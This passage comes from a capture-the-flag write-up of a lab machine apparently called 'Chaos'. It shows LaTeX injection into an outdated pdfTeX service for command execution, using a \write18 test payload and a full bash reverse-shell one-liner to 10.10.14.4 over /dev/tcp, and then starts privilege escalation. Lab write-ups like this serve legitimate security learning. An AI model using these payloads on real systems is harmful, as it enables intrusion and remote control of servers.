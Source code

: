 Sending requests doesn't seem to do anything, so I took a look at it within Burpsuite:

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

The above reveals that it is running an outdated version of pdfTeX. There are multiple methods of which we can use LaTeX injection to get RCE:

{% embed url="https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#rce" %}

I used `\immediate\write18\{id}` to test, and it worked:

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

Using `\immediate\write18{bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'}` will get us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ayush Shell -> Shell Escape

There are 2 users present within the machine:

```
www-data@chaos:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Jun 30  2022 .
drwxr-xr-x 22 root  root  4096 Jul 12  2022 ..
drwx------  5 ayush ayush 4096 Jul 12  2022 ayush
drwx------  5 sahay sahay 4096 Jul 12  2022 sahay
```
